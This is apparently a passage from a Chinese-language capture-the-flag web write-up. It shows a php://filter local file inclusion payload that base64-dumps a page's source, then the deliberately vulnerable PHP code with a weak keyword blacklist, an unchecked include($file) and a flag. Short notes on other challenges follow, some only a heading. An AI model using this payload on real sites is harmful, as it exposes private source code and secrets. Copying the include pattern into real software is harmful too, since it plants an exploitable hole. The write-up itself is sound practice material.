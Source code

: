 ```bash
?file=php://filter/read=convert.base64-encode/resource=show.php
# dGVzdDEyMw==
```

```php
<html>
    <title>asdf</title>
    
<?php
	error_reporting(0);
	if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "Oh no!";
		exit();
	}
	include($file); 
//flag:nctf{edulcni_elif_lacol_si_siht}

?>
</html>
```

## 单身一百年也没用

burpsuite抓包返回包即可

## Download~!



## COOKIE
![image](./img/N5.png)
